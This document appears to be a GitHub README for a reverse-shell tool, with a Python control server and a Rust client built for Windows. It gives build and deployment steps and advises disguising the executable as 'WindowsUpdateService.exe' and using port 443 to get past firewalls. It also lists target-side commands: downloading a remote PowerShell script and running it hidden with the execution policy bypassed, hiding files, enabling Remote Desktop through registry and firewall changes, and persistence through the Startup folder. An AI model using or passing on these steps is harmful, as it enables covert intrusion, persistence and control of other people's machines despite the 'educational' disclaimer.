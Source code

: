 # 🐍 Reverse Shell (Python Server & Rust Client)

This project is a simple yet effective reverse shell, consisting of a Python server for managing connections and a Rust-based client for the Windows operating system. This tool is designed for **educational purposes and penetration testing**.

## 📋 Features

- ✅ **Python Server:** Lightweight and runnable on Linux-based operating systems.
- 🔐 **Encrypted Communication:** Utilizes the `pycryptodome` library for data encryption.
- 🖥️ **Rust Client:** Compiles to a small, fast `.exe` executable for Windows.
- 📡 **Session Management:** Capable of handling multiple concurrent connections.
- 🛡️ **Firewall Bypass:** Uses port 443 to reduce the likelihood of traffic being blocked.

---

## 🚩 Prerequisites

### For the Server (Ubuntu Server)

- An Ubuntu server or virtual machine with a **static IP address**.
- Python 3 installed.
- `pip` (Python's package installer) installed.

### For Compiling the Client (Windows)

- The **Rust** programming language installed. (You can download it from [here](https://www.rust-lang.org/tools/install))
- **Microsoft Visual Studio Build Tools** with **C++** support installed. (You can download it from [here](https://visualstudio.microsoft.com/visual-cpp-build-tools/))

---

## 🛠 Server Installation & Setup

Follow these steps on your Ubuntu server:

1.  First, update your system and install `pip`:
    ```bash
    sudo apt update
    sudo apt install python3
    sudo apt install python3-pip
    ```

2.  Open the desired port (443 in this example) in your firewall:
    ```bash
    sudo ufw allow 443
    ```

3.  Clone the project from GitHub and navigate into its directory.

4.  Install the required Python libraries. (Ensure a `requirements.txt` file exists in the project and includes `pycryptodome`.)
    ```bash
    pip install -r requirements.txt
    ```
    or
    ```bash
    pip install pycryptodome
    ```

6.  Run the server:
    ```bash
    python3 server.py
    ```
    or
    ```bash
    python server.py
    ```

At this point, the server is active and will listen for incoming client connections. You can type `help` at any time in the server terminal to see the list of available commands.

---

## 🔨 Building the Client Executable (Exe)

To build the `.exe` file that will run on the target Windows system, follow these steps:

1.  Ensure you have installed the prerequisites for **Rust** and **Visual Studio Build Tools**.

2.  Navigate to the client directory in the project:
    ```cmd
    cd reverse_shell
    ```

3.  Open the `main.rs` file with a text editor.

4.  Find the following line and replace it with your Linux server's IP address and port. (Using port 443 is recommended)
    ```rust
    let server_addr = "YOUR_SERVER_IP:443"; // <-- Replace with your server's IP
    ```

5.  Run the following command to compile the project:
    ```bash
    cargo build --release --target x86_64-pc-windows-msvc
    ```

6.  The executable `.exe` file will be created at the following path:
    ```
    target\x86_64-pc-windows-msvc\release\reverse_shell.exe
    ```
7.  rename reverse_shell.exe to WindowsUpdateService.exe (Sugguested)

> **⚠️ Important Warning:** Never run the `reverse_shell.exe` file on your own machine! This file is designed to be executed on the target system. For testing, always use a virtual machine.

---

## 📖 How to Use

1.  Run the server on your Ubuntu VM as described in the setup instructions.
2.  Transfer the compiled `reverse_shell.exe` file to the target Windows machine.
3.  Execute the `reverse_shell.exe` file on the target system.
4.  Immediately after execution, a new connection will appear in your server's terminal.

---

## 🎯 Commands

### Server Commands (For Managing Connections)

Enter these commands in the Python server terminal:

- `help`: Displays the list of available commands.
- `sessions`: Shows all active sessions (connections).
- `connect <id>`: Connects to a specific session to send commands. (e.g., `connect 1`)
- `info <id>`: Retrieves basic system information for a specific session.
- `exit`: Shuts down the server completely.

### Example Client-Side Commands (To Run on the Target)

After connecting to a session using the `connect` command, you can send the following commands to perform various actions on the target system:

#### Download and Execute a PowerShell Script
```cmd
curl -o "script.ps1" "http://your-server.com/script.ps1" 
powershell -WindowStyle Hidden -ExecutionPolicy Bypass -File "script.ps1"
```

#### Hide a File Completely
```cmd
attrib +h +s "C:\path\to\your\file.ext"
```
> To unhide files hidden with this method, you must enable "Hidden items" and uncheck "Hide protected operating system files" in File Explorer's View options.

#### Enable Windows Remote Desktop (RDP)
```cmd
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
sc config TermService start= auto
sc start TermService
netsh advfirewall firewall set rule group="Remote Desktop" new enable=Yes
```

#### Copy File to Startup Folder (for Persistence)
The startup folder path is:
```
C:\Users\<username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```

#### Run Executable Without a Console Window
```cmd
start /B reverse_shell.exe
```

---

## ⚖️ Disclaimer

This tool is developed solely for **educational** and **security research** purposes. Any misuse, illegal, or unauthorized use of this code is the sole responsibility of the user. The developer assumes no liability for any potential misuse.
```

---

**نکته کلیدی:** مطمئن شوید که فایل را در گیت‌هاب ذخیره کرده و سپس صفحه را رفرش کنید. دکمه کپی فقط در نمای رندر شده‌ی گیت‌هاب نمایش داده می‌شود، نه در ویرایشگر متن شما.
